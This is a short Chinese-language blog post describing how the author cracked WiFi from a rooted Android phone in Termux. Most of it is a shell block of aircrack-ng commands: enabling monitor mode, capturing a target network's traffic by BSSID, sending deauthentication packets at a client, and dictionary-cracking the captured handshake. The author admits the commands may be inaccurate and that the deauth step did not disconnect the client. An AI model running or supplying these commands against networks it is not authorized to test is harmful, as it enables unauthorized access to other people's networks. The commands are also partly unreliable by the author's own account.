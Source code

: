 ```yaml
---
tags: [网络安全, WiFi, Android, Termux, aircrack-ng]
title: 使用安卓手机破解 WiFi
last_modified_at: 2022-8-13
slug: termux-wifi-crack
redirect_from: 
  - /posts/使用安卓手机破解WiFi
---
```


## 起因

[这位大佬的博客](https://rainchan.win/2021/08/09/%E4%B8%80%E5%8A%A0wifi%E5%97%85%E6%8E%A2%E5%8A%9F%E8%83%BD%E8%A7%A3%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8)讲述了一个使用安卓手机抓取 WIFI 数据包的经历，我想用手里的*红米 K30 5G*与*小米 5*复现，于是有了这篇博文

以下内容均在*MIUI 12.5，安卓 10 的 红米 K30 5G*上完整复现，在此大概做个记录

*注意：执行以下操作需要手机获得 root 权限。*

## 正文

> `<>`表示需要根据实际情况更改的内容

```shell
pkg install wireless-tools iw tcpdump aircrack-ng ethtool pciutils -y # 有一些是不必要的，可以自行鉴别
# 进入 monitor 模式，抓取数据包并破解
# 此处的命令不一定准确，具体可以`aircrack-ng`为关键词自行搜索教程
tsu
airmon-ng check kill
airmon-ng start wlan0
airodump-ng wlan0
airodump -w <filenamePrefix> -c <channel> --bssid <bssid> wlan0 --ignore-negative-one
aireplay-ng -0 0 -a <bssid> -c <clientMac> --ignore-negative-one # 有发送数据包的输出，但被攻击端并未断开连接
aircrack-ng <filenamePrefix>-<xx>.cap -w <dictionaryPath>
```

```shell
# 退出
airmon-ng stop wlan0
```
